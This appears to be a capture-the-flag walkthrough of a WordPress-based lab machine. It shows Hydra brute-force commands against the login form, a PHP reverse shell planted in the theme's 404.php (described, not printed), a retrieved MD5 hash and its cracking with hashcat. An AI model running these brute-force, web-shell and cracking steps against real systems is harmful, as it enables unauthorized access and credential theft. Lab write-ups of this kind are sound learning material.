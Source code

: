 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-13 01:27:35
[DATA] max 50 tasks per 1 server, overall 50 tasks, 858235 login tries (l:858235/p:1), ~17165 tries per task
[DATA] attacking http-post-form://10.10.8.165:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[80][http-post-form] host: 10.10.8.165   login: Elliot   password: lol


so now we can rockyou Elliot's logon

[ATTEMPT] target 10.10.8.165 - login "Elliot" - pass "525252" - 4800 of 14344399 [child 44] (0/0)
[80][http-post-form] host: 10.10.8.165   login: Elliot
[80][http-post-form] host: 10.10.8.165   login: elliot
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-13 01:40:14


found 525252 as the last password before hydra stopped

┌──(kali㉿kali)-[~]
└─$ hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.8.165 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:incorrect" -t 50 -V

Basically same command as the last one but changing the u name and P word flags as well as the return message to incorrect

my brute forces kept interrupting so I decided to change my return message to include more text just incase the string "incorrect" could somehow come up in other messages


┌──(kali㉿kali)-[~]
└─$ hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.8.165 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 50 -V

Hydra was taking forever so I tried lowercase elliot because I couldn't get the capital to snag a password eventually we get elliot:ER28-0652

when i logged in I saw something familiar, twentyX was the theme that was set so I went into the theme editor and used pentest monkey's PHP rev shell code to dump into the 404 directory for the theme http://10.10.46.235/wordpress/wp-content/themes/twentyfifteen/404.php the shell caught

$ ls home
robot
$ ls home/robot
key-2-of-3.txt
password.raw-md5
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
$ 

┌──(kali㉿kali)-[~]
└─$ hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt  
hashcat (v6.2.6) starting

┌──(kali㉿kali)-[~]
└─$ hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
